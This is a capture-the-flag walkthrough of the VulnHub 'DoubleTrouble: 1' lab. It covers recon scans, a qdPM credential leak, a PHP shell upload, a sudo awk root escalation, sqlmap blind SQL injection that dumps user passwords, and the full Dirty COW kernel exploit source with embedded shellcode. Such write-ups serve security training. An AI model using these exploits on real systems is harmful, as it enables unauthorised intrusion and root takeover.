# DoubleTrouble: 1
https://www.vulnhub.com/entry/doubletrouble-1,743/

## Discovery

### Tool used: netdiscover
<br>

```
sudo netdiscover

Currently scanning: 192.168.148.0/16   |   Screen View: Unique Hosts          
                                                                               
 32 Captured ARP Req/Rep packets, from 18 hosts.   Total size: 1924            
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 172.16.250.94   08:00:27:3a:15:61      2     120  PCS Systemtechnik GmbH
 ```

 ## Port scan

 ### Tool used: nmap
 <br>

 ```
 nmap -T4 -sV -p- dubtrub

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 10:24 CDT
Nmap scan report for dubtrub (172.16.250.94)
Host is up (0.00042s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.88 seconds
```

## HTTP enumeration

### Tool used: gobuster
<br>

```
gobuster dir --url http://dubtrub --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dubtrub
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/07 10:27:31 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 304] [--> http://dubtrub/uploads/]
/images               (Status: 301) [Size: 303] [--> http://dubtrub/images/] 
/css                  (Status: 301) [Size: 300] [--> http://dubtrub/css/]    
/template             (Status: 301) [Size: 305] [--> http://dubtrub/template/]
/core                 (Status: 301) [Size: 301] [--> http://dubtrub/core/]    
/install              (Status: 301) [Size: 304] [--> http://dubtrub/install/] 
/js                   (Status: 301) [Size: 299] [--> http://dubtrub/js/]      
/sf                   (Status: 301) [Size: 299] [--> http://dubtrub/sf/]      
/secret               (Status: 301) [Size: 303] [--> http://dubtrub/secret/]  
/backups              (Status: 301) [Size: 304] [--> http://dubtrub/backups/] 
/batch                (Status: 301) [Size: 302] [--> http://dubtrub/batch/]   
/server-status        (Status: 403) [Size: 272]                               
                                                                              
===============================================================
2022/09/07 10:27:56 Finished
===============================================================
```

Browsing to the URL shows us qdPM 9.1 (a project management tool) is installed.<br><br>



Our first rabbit hole begins with the "/install" directory.<br><br>





A quick search of exploits shows us that we can expose some database credentials stored in a YAML (.yml) file:<br><br>

```
# Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
# Date: 03/08/2021
# Exploit Author: Leon Trappett (thepcn3rd)
# Vendor Homepage: https://qdpm.net/
# Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
# Version: 9.2
# Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4

The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.
```

Indeed, if we browse to "~/core/config/databases.yml", we have a username and password:<br><br>

```yml
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: otis
      password: "<?php echo urlencode('rush') ; ?>"
      attributes:
        quote_identifier: true  
```

We are able to go back to "/install" and login using **otis/rush** and reset the admin's password, but we were unable to login.<br><br>





We should have just inspected "/secret" first, as this is where we were able to progress from. The page contains a simple image. At first, it appeared to be nothing special as *exiftool* did not reveal anything good.<br><br>


```
exiftool doubletrouble.jpg 

ExifTool Version Number         : 12.42
File Name                       : doubletrouble.jpg
Directory                       : .
File Size                       : 83 kB
File Modification Date/Time     : 2022:09:07 10:30:12-05:00
File Access Date/Time           : 2022:09:07 10:30:12-05:00
File Inode Change Date/Time     : 2022:09:07 10:30:15-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 501
Image Height                    : 450
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 501x450
Megapixels                      : 0.225
```

However, after doing a quick search online for other people's work (because sometimes you get stuck), we found that steganography might be in play. Using *stegseek* revealed just that:<br><br>

```
stegseek doubletrouble.jpg /usr/share/wordlists/rockyou.txt 

StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "92camaro"       
[i] Original filename: "creds.txt".
[i] Extracting to "doubletrouble.jpg.out".

cat doubletrouble.jpg.out 

otisrush@localhost.com
otis666
```

With this, we are able to login to the site. There are not any obvious points of entry, but in our earlier exploit search, we found  a file upload exploit that lets us upload a PHP shell through the profile page:<br><br>

```
# Exploit Title: qdPM 9.1 - Arbitrary File Upload
# Date: 2020-05-06
# Author: Besim ALTINOK
# Vendor Homepage: https://sourceforge.net/projects/qdpm/
# Software Link: https://sourceforge.net/projects/qdpm/
# Version: v9.1 (Maybe it affect other versions)
# Tested on: Xampp
# Credit: İsmail BOZKURT
# Remotely: Yes

Description
--------------------------------------------------------------------

When a normal user tries to update their profile, they can arbitrarily
upload files to the user_photo area. Because there are no file extension
controls. Additionally, the .htaccess file has some protection against
malicious .php file. But, the developer writes the wrong regex. So, the
Attacker can change extension as (.PHP) and run code on the server
```




...and after setting up a listener, we have access!<br><br>



There are no flags (that we could find), so we run *linpeas* to see what kind of access we have:<br><br>



GTFOBins informs us that we can use *awk* to elevate our session (https://gtfobins.github.io/gtfobins/awk/)<br><br>

```
$ sudo awk 'BEGIN {system("/bin/sh")}'

id
uid=0(root) gid=0(root) groups=0(root)
```

Poking around, we cannot find any flags. However, there is another VM template in the "/root" folder:<br><br>

```
root@doubletrouble:/tmp# ls /root
doubletrouble.ova
```

So, we fire up the VM-inside-the-VM and start the process all over:<br><br>

## Discovery

### Tool used: netdiscover
<br>

```
sudo netdiscover
 
 Currently scanning: 192.168.214.0/16   |   Screen View: Unique Hosts          
                                                                               
 11 Captured ARP Req/Rep packets, from 5 hosts.   Total size: 660              
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 172.16.250.94   08:00:27:3a:15:61      2     120  PCS Systemtechnik GmbH      
 172.16.250.97   08:00:27:2a:55:9e      1      60  PCS Systemtechnik GmbH   
 ```

 ## Port scan

 ### Tool used: nmap
 <br>

 ```
 nmap -T4 -sV -p- inner

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 13:12 CDT
Nmap scan report for inner (172.16.250.97)
Host is up (0.0011s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.46 seconds
```

We are presented with a plain looking login page:<br><br>



From here, we will try some SQL injection (output is truncated for readability).

## SQL enumeration and injection

### Tool used: sqlmap
<br>

```
sqlmap -u http://inner --forms

[13:31:50] [INFO] testing connection to the target URL
[13:31:50] [INFO] searching for forms
[1/1] Form:
POST http://inner/index.php
POST data: uname=&psw=&btnLogin=Login
do you want to test this form? [Y/n/q] 
> y
Edit POST data [default: uname=&psw=&btnLogin=Login] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] y

sqlmap identified the following injection point(s) with a total of 112 HTTP(s) requests:
---
Parameter: uname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=jChK' AND (SELECT 1127 FROM (SELECT(SLEEP(5)))GWGQ) AND 'Qizf'='Qizf&psw=&btnLogin=Login
---
```

*sqlmap* reports that the MySQL database is vulnerable to a time-based blind injection. Now that we know the dbms running, we retrieve the current database in use:<br><br>

```
sqlmap -u http://inner --forms --dbms=mysql -p uname --current-db

---
Parameter: uname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=jChK' AND (SELECT 1127 FROM (SELECT(SLEEP(5)))GWGQ) AND 'Qizf'='Qizf&psw=&btnLogin=Login
---
do you want to exploit this SQL injection? [Y/n] y
[13:39:27] [INFO] testing MySQL
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[13:39:36] [INFO] confirming MySQL
[13:39:36] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[13:39:46] [INFO] adjusting time delay to 1 second due to good response times
[13:39:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 7 (wheezy)
web application technology: PHP 5.5.38, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.0
[13:39:46] [INFO] fetching current database
[13:39:46] [INFO] retrieved: doubletrouble
current database: 'doubletrouble'
```

So now that we have the database name (doubletrouble), we look for some tables:<br><br>

```
sqlmap -u http://inner --forms --dbms=mysql -p uname -D doubletrouble --tables

---
Parameter: uname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=jChK' AND (SELECT 1127 FROM (SELECT(SLEEP(5)))GWGQ) AND 'Qizf'='Qizf&psw=&btnLogin=Login
---
do you want to exploit this SQL injection? [Y/n] y
[13:40:55] [INFO] testing MySQL
[13:40:55] [INFO] confirming MySQL
[13:40:55] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 7 (wheezy)
web application technology: Apache 2.2.22, PHP 5.5.38
back-end DBMS: MySQL >= 5.0.0
[13:40:55] [INFO] fetching tables for database: 'doubletrouble'
[13:40:55] [INFO] fetching number of tables for database 'doubletrouble'
[13:40:55] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                             
[13:40:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
1
[13:41:09] [INFO] retrieved: 
[13:41:19] [INFO] adjusting time delay to 1 second due to good response times
users
Database: doubletrouble
[1 table]
+-------+
| users |
+-------+
```

It is time to dump the data!<br><br>

```
sqlmap -u http://inner --forms --dbms=mysql -p uname -D doubletrouble -T users --dump

---
Parameter: uname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=jChK' AND (SELECT 1127 FROM (SELECT(SLEEP(5)))GWGQ) AND 'Qizf'='Qizf&psw=&btnLogin=Login
---
do you want to exploit this SQL injection? [Y/n] y
[13:42:56] [INFO] testing MySQL
[13:42:56] [INFO] confirming MySQL
[13:42:56] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 7 (wheezy)
web application technology: PHP 5.5.38, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.0
[13:42:56] [INFO] fetching columns for table 'users' in database 'doubletrouble'
[13:42:56] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                             
[13:42:56] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
2
[13:43:11] [INFO] retrieved: 
[13:43:16] [INFO] adjusting time delay to 1 second due to good response times
username
[13:43:37] [INFO] retrieved: password
[13:44:04] [INFO] fetching entries for table 'users' in database 'doubletrouble'
[13:44:04] [INFO] fetching number of entries for table 'users' in database 'doubletrouble'
[13:44:04] [INFO] retrieved: 2
[13:44:06] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                    
GfsZxc1
[13:44:31] [INFO] retrieved: montreux
[13:45:00] [INFO] retrieved: ZubZub99
[13:45:32] [INFO] retrieved: clapton
Database: doubletrouble
Table: users
[2 entries]
+----------+----------+
| password | username |
+----------+----------+
| GfsZxc1  | montreux |
| ZubZub99 | clapton  |
+----------+----------+
```

Now we have some credentials to work with. We were unable to login with *montreux*, but had success with *clapton*. Finding the **user.txt** flag was easy, but we still need to escalate our privileges.<br><br>

```
ssh montreux@inner
montreux@inner's password: 
Permission denied, please try again.
montreux@inner's password: 


ssh clapton@inner
clapton@inner's password: 
Linux doubletrouble 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

clapton@doubletrouble:~$ ls

user.txt

clapton@doubletrouble:~$ cat user.txt 

6CEA7A737C7C651F6DA7669109B5FB52
```

Using *linpeas* again, we see that this system is vulnerable to the Dirty COW (copy-on-write) exploit (CVE-2016-5195). Using https://www.exploit-db.com/exploits/40616, we compiled the code on the attacking machine (due to issues getting this one to compile on the local machine) and downloaded the binary on the VM.<br><br>



### Exploit code used
<br>

```c
/*
*
* EDB-Note: After getting a shell, doing "echo 0 > /proc/sys/vm/dirty_writeback_centisecs" may make the system more stable.
*
* (un)comment correct payload first (x86 or x64)!
* 
* $ gcc cowroot.c -o cowroot -pthread
* $ ./cowroot
* DirtyCow root privilege escalation
* Backing up /usr/bin/passwd.. to /tmp/bak
* Size of binary: 57048
* Racing, this may take a while..
* /usr/bin/passwd is overwritten
* Popping root shell.
* Don't forget to restore /tmp/bak
* thread stopped
* thread stopped
* root@box:/root/cow# id
* uid=0(root) gid=1000(foo) groups=1000(foo)
*/

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>

void *map;
int f;
int stop = 0;
struct stat st;
char *name;
pthread_t pth1,pth2,pth3;

// change if no permissions to read
char suid_binary[] = "/usr/bin/passwd";

/*
* $ msfvenom -p linux/x64/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
*/ 
unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0xb1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xea, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x31, 0xff, 0x6a, 0x69, 0x58, 0x0f, 0x05, 0x6a, 0x3b, 0x58, 0x99,
  0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53, 0x48,
  0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8,
  0x0a, 0x00, 0x00, 0x00, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73,
  0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};
unsigned int sc_len = 177;

/*
* $ msfvenom -p linux/x86/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x01, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x03, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x54, 0x80, 0x04, 0x08, 0x34, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x34, 0x00, 0x20, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x80, 0x04, 0x08, 0x00, 0x80, 0x04, 0x08, 0x88, 0x00, 0x00, 0x00,
  0xbc, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00,
  0x31, 0xdb, 0x6a, 0x17, 0x58, 0xcd, 0x80, 0x6a, 0x0b, 0x58, 0x99, 0x52,
  0x66, 0x68, 0x2d, 0x63, 0x89, 0xe7, 0x68, 0x2f, 0x73, 0x68, 0x00, 0x68,
  0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x52, 0xe8, 0x0a, 0x00, 0x00, 0x00,
  0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73, 0x68, 0x00, 0x57, 0x53,
  0x89, 0xe1, 0xcd, 0x80
};
unsigned int sc_len = 136;
*/

void *madviseThread(void *arg)
{
    char *str;
    str=(char*)arg;
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++) {
        c+=madvise(map,100,MADV_DONTNEED);
    }
    printf("thread stopped\n");
}

void *procselfmemThread(void *arg)
{
    char *str;
    str=(char*)arg;
    int f=open("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++) {
        lseek(f,map,SEEK_SET);
        c+=write(f, str, sc_len);
    }
    printf("thread stopped\n");
}

void *waitForWrite(void *arg) {
    char buf[sc_len];

    for(;;) {
        FILE *fp = fopen(suid_binary, "rb");

        fread(buf, sc_len, 1, fp);

        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s is overwritten\n", suid_binary);
            break;
        }

        fclose(fp);
        sleep(1);
    }

    stop = 1;

    printf("Popping root shell.\n");
    printf("Don't forget to restore /tmp/bak\n");

    system(suid_binary);
}

int main(int argc,char *argv[]) {
    char *backup;

    printf("DirtyCow root privilege escalation\n");
    printf("Backing up %s.. to /tmp/bak\n", suid_binary);

    asprintf(&backup, "cp %s /tmp/bak", suid_binary);
    system(backup);

    f = open(suid_binary,O_RDONLY);
    fstat(f,&st);

    printf("Size of binary: %d\n", st.st_size);

    char payload[st.st_size];
    memset(payload, 0x90, st.st_size);
    memcpy(payload, sc, sc_len+1);

    map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);

    printf("Racing, this may take a while..\n");

    pthread_create(&pth1, NULL, &madviseThread, suid_binary);
    pthread_create(&pth2, NULL, &procselfmemThread, payload);
    pthread_create(&pth3, NULL, &waitForWrite, NULL);

    pthread_join(pth3, NULL);

    return 0;
}
```

Executing the binary quickly escalated our privileges to root, and we were able to obtain the **root.txt** flag!<br><br>



```
root@doubletrouble:/home/clapton# echo 0 > /proc/sys/vm/dirty_writeback_centisecs
root@doubletrouble:/home/clapton# cd /root
root@doubletrouble:/root# ls

logdel2  root.txt

root@doubletrouble:/root# cat root.txt

1B8EEA89EA92CECB931E3CC25AA8DE21
```